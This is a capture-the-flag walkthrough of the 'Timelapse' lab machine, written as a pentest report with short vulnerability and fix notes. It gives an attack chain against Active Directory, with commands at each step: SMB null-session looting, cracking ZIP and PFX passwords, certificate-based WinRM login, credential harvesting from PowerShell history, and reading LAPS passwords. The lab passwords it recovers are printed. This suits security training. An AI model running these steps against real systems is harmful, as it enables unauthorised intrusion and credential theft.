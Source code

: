 # Timelapse Machine

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command ```sudo nmap -Pn -p- --min-rate 1000 -v timelapse.htb```

![image](images/Timelapse/Imagen1.png)

Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: ```sudo nmap -sS -sV -O -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49673,49674,64088 --min-rate 1000 -oN timelapseServiceVersions timelapse.htb```


![image](images/Timelapse/Imagen2.png)

### DNS Enumeration
As port 53 is open, I will try to enumerate subdomains and DNS related information.
Using dig tool I try to recover any entry with ```dig any timelapse.htb @10.10.11.152```

![image](images/Timelapse/Imagen3.png)

As it is shown on the picture, a new subdomain appears (dc01.timelapse.htb) which seems to be an Active Directory Domain Controller.

### LDAP Enumeration

Using python console, I will try to manually obtain LDAP useful information as the naming con-text. 

```

$$ server = ldap3.Server('10.10.11.152', get_info = ldap3.ALL, port = 389, use_ssl = False)      
$$ connection = ldap3.Connection(server)      
$$ connection.bind()
>>True                                                                                                                
$$ server.info

```

![image](images/Timelapse/Imagen4.png)

![image](images/Timelapse/Imagen5.png)

![image](images/Timelapse/Imagen6.png)

As intended, naming context was obtained being the default naming context: “DC=timelapse, DC=htb”. However, naming context is not the only piece of information recovered. It was also known the server time (useful for requesting Kerberos Tickets), and the LDAP name of the Domain Controller ```CN=DC01, CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb```

### SMB Enumeration

“Crackmapexec” tool will allow to check whether there are publicly accessible shares or aren’t. With this goal, command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' –shares``` will show (if possible) shared folders and which permissions does “test” user have on each one (during the tests it was learnt that null sessions are also available on this machine). 

![image](images/Timelapse/Imagen7.png)

As seen in the previous picture, an interesting share called “Share” has been listed. User test has read access in this share.
Next step is to try and spider the share using as pattern “.” This way, almost every file will be listed. In order to do this command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' --spider Shares --pattern . ```

![image](images/Timelapse/Imagen8.png)

Interesting files have appeared. In order to retrieve the files and have a better interaction with the target SMB, “smbclient” tool will be used. As null sessions are allowed, command used will be ```smbclient \\\\10.10.11.152\\Shares```

![image](images/Timelapse/Imagen9.png)

To download everything easier recurse mode is activated using “recurse” smb command. After that both folders are downloaded using ```mget <folder-name>” command```

![image](images/Timelapse/Imagen10.png)

Inspecting the recently downloaded files, one of them stands out because of the name “winrm_backup.zip” and because it contains a “.PFX” certificate file. When trying to unzip it, it is learnt that it is password-protected. To break the protection next steps were followed:

1. Extract the hash of the password using ```zip2john winrm*```

2. Export the hash to a file called “hash.txt” (only the string between $pkzip$ and $/pkzip$ as it is the format that hashcat uses).

3. Perform dictionary attack using hashcat with command ```.\hashcat -m 17200 -a 0 hash.txt rockyou.txt```

![image](images/Timelapse/Imagen11.png)

![image](images/Timelapse/Imagen12.png)

As seen in the picture, ZIP password was recovered, and it is “supremelegacy”. 

After extracting the file inside the ZIP “legacy_dev_auth.pfx” it is known that it is also password-protected.

![image](images/Timelapse/Imagen13.png)

## Initial Access - Insecure Credentials

**Vulnerability Explanation**: Among the files found on the publicly accessible SMB shares, a password-protected ZIP file was found containing an also password-protected “.PFX” certificate file. Both passwords were found with a dictionary and performing a dictionary attack.

**Vulnerability Fix**: Avoid using easy passwords.

**Severity**: Critical

**Steps to reproduce the attack**: 

1.	Donwload the pfx file password cracking from github “https://github.com/crackpkcs12/crackpkcs12”

2.	Launch the dictionary attack using ```crackpkcs12 -d <dictionary-file> <pfx-file> -t <num-ber-of-threads>```

![image](images/Timelapse/Imagen14.png)

3.	Using the password, extract the private key file and certificate from the pfx file using following two commands:

```

openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.cert.pem -clcerts -nokeys
openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.key.pem -nocerts -nodes
	
```

![image](images/Timelapse/Imagen15.png)

4.	Using the recently obtained files, authenticate using ```evil-winrm -i 10.10.11.152 -c Dev/certs/timelapse-legacy.cert.pem -k Dev/certs/timelapse-legacy.key.pem -u legacyy -S```

![image](images/Timelapse/Imagen16.png)

5.	Grab “C.\Users\Legacyy\Desktop\User.txt”

## Post-Exploitation

Once logged in as “legacyy”, exploring the command line history file ```$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt``` cleartext credentials are found for user “svc_deploy”.

![image](images/Timelapse/Imagen17.png)

Using those credentials ```Svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV```, it is possible to log in as “svc_deploy” through winrm.

![image](images/Timelapse/Imagen18.png)

## Privilege Escalation - LAPS_Reader Group

**Vulnerability Explanation**: after logging in as svc_deploy with recently found cleartext credentials, it is found that this user is a member of the LAPS_reader group. Members of this group are allowed to access the Local Administrator password from the “ms-mcs-admpwd” attribute of computer’s domain object.

**Vulnerability Fix**: securely store credentials.

**Severity**: Critical

**Steps to reproduce the attack**: after logging in as a “LAPS_reader” group member, using cmdlet ```get-domaincomputer``` from “PowerSploit.ps1” (https://github.com/PowerShellMafia/PowerSploit) extract the ms-mcs-admpwd with the following command ```get-domaincomputer | where-object { $_.’ms-mcs-admpwd’ -ne $null } | select-object ms-mcs-admpwd```

![image](images/Timelapse/Imagen19.png)

As shown in the previous picture, credentials are recovered ```Yln0l#3M+,705uQP9g(nSq8+```

After that, login as Administrator and grab the flag.














